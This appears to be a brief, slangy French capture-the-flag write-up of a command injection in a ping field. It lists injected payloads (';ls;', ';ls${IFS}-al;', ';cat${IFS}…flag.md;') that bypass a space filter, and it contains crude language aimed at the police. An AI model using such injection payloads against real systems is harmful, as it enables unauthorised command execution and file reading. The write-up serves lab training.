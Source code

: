 # Writeup
Pas trop détaillé psq nik la poliss

## Recon
Pareil que le précédent :
```bash
ping -c 1 $ip
```

On teste la payload `;ls;` ça passe ! Easy man !
En fait non, les espaces sont filtrés __cheh__.

## Exploit
On bypass le filtrage de l'espace :
```bash
;ls${IFS}-al;
```

On a alors le chemin vers le flag : `flag/it/is/soon/here/flag.md`

## Résumé
```bash
;cat${IFS}flag/it/is/soon/here/flag.md;
```
